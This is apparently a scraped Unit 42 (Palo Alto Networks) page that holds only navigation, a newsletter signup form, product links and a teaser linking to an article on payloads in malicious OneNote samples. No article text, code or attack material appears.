[#### Payload Trends in Malicious OneNote Samples](https://unit42.paloaltonetworks.com/payloads-in-malicious-onenote-samples/)
* [Malvertising](https://unit42.paloaltonetworks.com/tag/malvertising/"malvertising")
* [Microsoft OneNote](https://unit42.paloaltonetworks.com/tag/microsoft-onenote/"Microsoft OneNote")
* [Phishing](https://unit42.paloaltonetworks.com/tag/phishing/"phishing")

[Read now
 ](https://unit42.paloaltonetworks.com/payloads-in-malicious-onenote-samples/"Payload Trends in Malicious OneNote Samples")

* 
* 

 Get updates from Unit 42
 
Peace of mind comes from staying ahead of threats.Contact us today.--------------------------------------------------------------------

 Your Email
 

 By submitting this form, you agree to our
 [Terms of Use](https://www.paloaltonetworks.com/legal-notices/terms-of-use "Terms of Use") 
 and acknowledge our
 [Privacy Statement.](https://www.paloaltonetworks.com/legal-notices/privacy "Privacy Statement") 

 Invalid captcha!
 

 Subscribe
 

### Products and services

* [Network Security Platform](https://www.paloaltonetworks.com/network-security "Network Security Platform")
* [CLOUD DELIVERED SECURITY SERVICES](https://www.paloaltonetworks.com/network-security/security-subscriptions "CLOUD DELIVERED SECURITY SERVICES")
* [Advanced Threat Prevention](https://www.paloaltonetworks.com/network-security/advanced-threat-prevention "Advanced Threat Prevention")
* [DNS Security](https://www.paloaltonetworks.com/network-security/advanced-dns-security "DNS Security")
* [Data Loss Prevention](https://www.paloaltonetworks.com/network-security/enterprise-data-loss-prevention "Data Loss Prevention")
* [IoT Security](https://www.paloaltonetworks.com/network-security/enterprise-iot-security "IoT Security")

* [Next-Generation Firewalls](https://www.paloaltonetworks.com/network-security/next-generation-firewall "Next-Generation Firewalls")
* [Hardware Firewalls](https://www.paloaltonetworks.com/network-security/next-generation-firewall-hardware "Hardware Firewalls")
* [Strata Cloud Manager](https://www.paloaltonetworks.com/network-security/strata-cloud-manager "Strata Cloud Manager")

* [SECURE ACCESS SERVICE EDGE](https://www.paloaltonetworks.com/sase "SECURE ACCESS SERVICE EDGE")
* [Prisma Access](https://www.paloaltonetworks.com/sase/access "Prisma Access")
* [Prisma SD-WAN](https://www.paloaltonetworks.com/sase/sd-wan "Prisma SD-WAN")
* [Autonomous Digital Experience Management](https://www.paloaltonetworks.com/sase/adem "Autonomous Digital Experience Management")
* [Cloud Access Security Broker](https://www.paloaltonetworks.com/sase/next-gen-casb "Cloud Access Security Broker")
* [Zero Trust Network Access](https://www.paloaltonetworks.com/sase/ztna "Zero Trust Network Access")

* [Code to Cloud Platform](https://www.paloaltonetworks.com/prisma/whyprisma "Code to Cloud Platform")
* [Prisma Cloud](https://www.paloaltonetworks.com/prisma/cloud "Prisma Cloud")
* [Cloud-Native Application Protection Platform](https://www.paloaltonetworks.com/content/pan/en_US/prisma/cloud/cloud-native-application-protection-platform "Cloud-Native Application Protection Platform")

* [AI-Driven Security Operations Platform](https://www.paloaltonetworks.com/cortex "AI-Driven Security Operations Platform")
* [Cortex XDR](https://www.paloaltonetworks.com/cortex/cortex-xdr "Cortex XDR")
* [Cortex XSOAR](https://www.paloaltonetworks.com/cortex/cortex-xsoar "Cortex XSOAR")
* [Cortex Xpanse](https://www.paloaltonetworks.com/cortex/cortex-xpanse "Cortex Xpanse")
* [Cortex XSIAM](https://www.paloaltonetworks.com/cortex/cortex-xsiam "Cortex XSIAM")
* [External Attack Surface Protection](https://www.paloaltonetworks.com/cortex/cortex-xpanse/attack-surface-management "External Attack Surface Protection")
* [Security Automation](https://www.paloaltonetworks.com/cortex/security-operations-automation "Security Automation")
* [Threat Prevention, Detection & Response](https://www.paloaltonetworks.com/cortex/detection-and-response "Threat Prevention, Detection & Response")

* [Threat Intel and Incident Response Services](https://www.paloaltonetworks.com/unit42 "Threat Intel and Incident Response Services")
* [Proactive Assessments](https://www.paloaltonetworks.com/unit42/assess "Proactive Assessments")
* [Incident Response](https://www.paloaltonetworks.com/unit42/respond "Incident Response")
* [Transform Your Security Strategy](https://www.paloaltonetworks.com/unit42/transform "Transform Your Security Strategy")
* [Discover Threat Intelligence](https://www.paloaltonetworks.com/unit42/threat-intelligence-partners "Discover Threat Intelligence")

### Company

* [About Us](https://www.paloaltonetworks.com/about-us "About Us")
* [Careers](https://jobs.paloaltonetworks.com/en/"Careers")
* [Contact Us](https://www.paloaltonetworks.com/company/contact-sales "Contact Us")
* [Corporate Responsibility](https://www.paloaltonetworks.com/about-us/corporate-responsibility "Corporate Responsibility")
* [Customers](https://www.paloaltonetworks.com/customers "Customers")
* [Investor Relations](https://investors.paloaltonetworks.com/"Investor Relations")
* [Location](https://www.paloaltonetworks.com/about-us/locations "Location")
* [Newsroom](https://www.paloaltonetworks.com/company/newsroom "Newsroom")

### Popular links

* [Blog](https://www.paloaltonetworks.com/blog/"Blog")
* [Communities](https://www.paloaltonetworks.com/communities "Communities")
* [Content Library](https://www.paloaltonetworks.com/resources "Content Library")
* [Cyberpedia](https://www.paloaltonetworks.com/cyberpedia "Cyberpedia")
* [Event Center](https://events.paloaltonetworks.com/"Event Center")
* [Manage Email Preferences](https://start.paloaltonetworks.com/preference-center "Manage Email Preferences")
* [Products A-Z](https://www.paloaltonetworks.com/products/products-a-z "Products A-Z")
* [Product Certifications](https://www.paloaltonetworks.com/legal-notices/trust-center/tech-certs "Product Certifications")
* [Report a Vulnerability](https://www.paloaltonetworks.com/security-disclosure "Report a Vulnerability")
* [Sitemap](https://www.paloaltonetworks.com/sitemap "Sitemap")
* [Tech Docs](https://docs.paloaltonetworks.com/"Tech Docs")
* [Unit 42](https://unit42.paloaltonetworks.com/"Unit 42")
* [Do Not Sell or Share My Personal Information](https://panwedd.exterro.net/portal/dsar.htm?target=panwedd "Do Not Sell or Share My Personal Information")

* [Privacy](https://www.paloaltonetworks.com/legal-notices/privacy "Privacy")
* [Trust Center](https://www.paloaltonetworks.com/legal-notices/trust-center "Trust Center")
* [Terms of Use](https://www.paloaltonetworks.com/legal-notices/terms-of-use "Terms of Use")
* [Documents](https://www.paloaltonetworks.com/legal "Documents")

  

 Copyright © 2024 Palo Alto Networks.All Rights Reserved
 

* 
* 
* 
* 
* 

 EN
 

* Select your language
* [USA (ENGLISH)](https://unit42.paloaltonetworks.com/fighting-ursa-car-for-sale-phishing-lure/)
* [JAPAN (日本語)](https://unit42.paloaltonetworks.jp/fighting-ursa-car-for-sale-phishing-lure/)

 Your browser does not support the video tag. 

### Default Heading

[Read the article
 ](# "Right Arrow Icon")

 Seekbar
 

 Volume
 

[comment]:<> (===END PAGE 1===)
